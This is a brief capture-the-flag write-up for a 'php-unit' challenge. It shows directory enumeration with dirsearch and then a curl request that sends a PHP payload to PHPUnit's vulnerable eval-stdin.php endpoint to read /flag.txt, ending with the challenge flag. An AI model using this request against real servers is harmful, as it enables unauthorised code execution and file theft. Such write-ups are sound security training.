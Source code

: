 ## php-unit

Very clearly built with PHP. Not much going on so we run dirsearch to hopefully get something interesting.

```
python dirsearch.py <url>
```

In the `/composer.json` file we see the phpunit version (5.6.2), which is vulnerable on the `/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php` endpoint. 

We can either use cURL to send data:

```
curl <ip>/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --data "<?php readfile('/flag.txt'); ?>"
```

Or put `<?php readfile('/flag.txt'); ?>` straight in a BurpSuite request.

_CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}_